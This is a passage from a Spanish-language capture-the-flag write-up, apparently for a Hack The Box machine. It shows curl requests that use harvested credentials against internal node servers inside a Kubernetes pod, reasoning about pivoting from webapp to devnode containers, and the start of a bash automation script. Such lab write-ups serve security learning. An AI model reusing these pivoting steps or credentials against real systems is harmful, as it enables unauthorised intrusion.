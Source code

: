 La respuesta es nada, pero podemos intentar jugar con algún servidor de los 3 que hay para ver si estamos ante el mismo servicio que explotamos anteriormente (node), para esto mandemos un mensaje (como los que ya hicimos), solo que acá debemos usar `cURL`:

Juguemos con `http://172.17.0.5:3000`:

```bash
<devnode>$ curl -s -H 'Content-Type: application/json' -X PUT -d '{"auth":{"name":"felamos","password":"Winter2021"},"message":{"text":"holaaaaa"}}' http://172.17.0.5:3000
{"ok":true}
```

Al parecer nos dejó, por lo que vamos tirando a que efectivamente es el mismo servicio, comprobemos que se subió el mensaje:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ curl http://172.17.0.5:3000; echo
[{"icon":"__","text":"holaaaaa","id":1,"timestamp":1625437769543,"userName":"felamos"}]
```

Perfecto, pues estamos ejecutando el mismo servicio de antes (:

> **Perdi mucho tiempo al no centrarme en esto, es claro el *path* pero en su momento no lo vi :P**

Seguí enumerando y enumerando y nada, full perdido, así que me fui a buscar ayuda, esta fue la pista:

> "Piensa en `webapp` como `devnode`"...

Dando vueltas con ella caí en cuenta de algo al mirar la terminal y al leer lo que habíamos hecho hace un momento con `cURL` y el servidor node:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$
```

**webapp-deployment** esta en nuestro hostname yyyyyyy si miramos la descripción de algún **pod** vemos **devnode-deployment** en su nombre, podemos pensar que estamos situados en algún contenedor del **pod** que encierra a la aplicación web (`webapp`), por lo que si existen otros contenedores que (según su nombre) hacen referencia a entornos de desarrollo (`devnode`), probablemente debamos movernos a alguno de ellos :o APAAAA, entiendo tu PISTAAAaaAAAAa.

Peeeeero ¿y como nos movemoooooooos? :(

Pues acá entra en juego lo que habíamos probado con `cURL` y los servidores node internos, ya que ellos están sirviendo desde contenedores llamados `devnode-deployment...` y nosotros estamos sobre contenedores llamados `webapp-deployment...`. Por lo que simplemente deberíamos volver a ejecutar nuestra explotación, pero contra algún servidor **node** interno (:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_gif_woooooow.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 60%;"/>

Podemos crear un script en `bash` que nos haga la gestión muuuucho más rápido y sea estético, así evitamos tener que estar limpiando la terminal por culpa de los comandos `cURL` tan largos :P (además de practicar nuestro scripting en bash).

```bash
#!/bin/bash

# CTRL + C
function ctrl_c() {
    echo "s4l1eNdo..."
}
trap ctrl_c INT

# ---- Funciones del programa

todo_data() {
    cat <<EOF
    {
        "auth": {
            "name": "felamos",
            "password": "Winter2021"
```